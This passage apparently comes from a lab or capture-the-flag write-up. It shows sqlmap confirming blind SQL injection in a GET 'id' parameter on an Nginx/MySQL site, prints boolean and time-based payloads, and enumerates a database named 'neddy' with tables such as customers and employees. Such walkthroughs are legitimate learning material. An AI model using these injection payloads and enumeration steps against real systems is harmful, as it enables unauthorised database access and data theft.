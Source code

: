 ```
[17:15:16] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[17:15:29] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[17:15:44] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[17:15:59] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 296 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=465' AND 6602=6602 AND 'YxJr'='YxJr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=465' AND SLEEP(5) AND 'APKt'='APKt
---
[17:16:20] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[17:16:20] [INFO] sqlmap will dump entries of all tables from all databases now
```
<br> There are 2 databases, `information_schema` and `neddy` :
```
[17:20:49] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[17:20:49] [INFO] sqlmap will dump entries of all tables from all databases now
[17:20:49] [INFO] fetching database names
[17:20:49] [INFO] fetching number of databases
[17:20:49] [INFO] resumed: 2
[17:20:49] [INFO] retrieving the length of query output
[17:20:49] [INFO] retrieved: 18
[17:21:09] [INFO] retrieved: information_schema
[17:21:09] [INFO] retrieving the length of query output
[17:21:09] [INFO] retrieved: 5
[17:21:21] [INFO] retrieved: neddy
[17:21:21] [INFO] fetching tables for databases: 'information_schema, neddy'
```
<br> We don't need `information_schema` in anything and also dumping `neddy` with that kind of injection would take a lot of time, let's take a look at the tables. 
```
[17:37:48] [INFO] fetching tables for database: 'neddy'
[17:37:48] [INFO] fetching number of tables for database 'neddy'
[17:37:48] [INFO] resumed: 11
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 6
[17:37:48] [INFO] resumed: config
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 9
[17:37:48] [INFO] resumed: customers
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 9
[17:37:48] [INFO] resumed: employees
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 8
[17:37:48] [INFO] resumed: filepath
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 6
[17:37:48] [INFO] resumed: idname
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 7
[17:37:48] [INFO] resumed: offices
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 12
```